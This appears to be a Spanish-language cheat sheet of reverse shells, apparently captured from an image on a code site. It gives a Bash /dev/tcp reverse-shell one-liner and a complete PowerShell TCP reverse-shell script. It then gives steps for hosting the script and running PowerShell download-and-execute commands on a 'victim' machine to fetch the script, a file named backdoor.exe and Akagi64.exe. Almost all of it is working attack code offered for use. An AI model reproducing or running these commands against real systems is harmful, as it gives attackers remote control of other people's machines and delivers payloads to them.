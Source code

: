## Bash
bash -i >& /dev/tcp/10.0.0.1/7777 0>&1


## Powershell

1- Guardamos lo siguiente como shell.ps1:
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex ". { $data } 2>&1" | Out-String);
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()



2- Nos ponemos un servidor simple desde python para poder transferirle el fichero.
3- Ejecutamos en la máquina víctima el comando:

c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.37.6:8000/shell.ps1')

c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.37.6:8000/backdoor.exe')

c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe -c IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.37.6:8000/Akagi64.exe')

